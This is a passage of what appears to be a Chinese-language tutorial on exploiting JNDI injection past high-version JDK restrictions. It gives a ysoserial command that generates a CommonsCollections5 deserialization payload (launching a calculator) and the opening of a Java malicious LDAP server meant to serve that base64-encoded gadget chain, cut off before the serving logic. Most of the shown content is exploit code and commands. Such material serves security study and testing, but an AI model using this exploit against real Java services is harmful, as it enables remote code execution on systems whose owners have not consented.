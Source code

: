 假设目标存在一个CC链所需的类库，那么可以利用这点进行利用

**1.先使用ysoserial.jar生成CC链的poc**

```java
java -jar ysoserial.jar CommonsCollections5 gnome-calculator > poc.txt
```

**2.转换为base64编码后放到服务端代码里**

![Untitled](JNDI%E6%B3%A8%E5%85%A5%E5%88%A9%E7%94%A8%E7%BB%95%E8%BF%87%E9%AB%98%E7%89%88%E6%9C%ACJDK%E9%99%90%E5%88%B6%203f0efdc038d24037aff71da4a248cd94/Untitled%201.png)

服务端代码

```java
package com.yy.jndi.jdk8u191;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://localhost/#Evail"}; 
        int port = 6666;
        // LDAP服务搭建
        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

```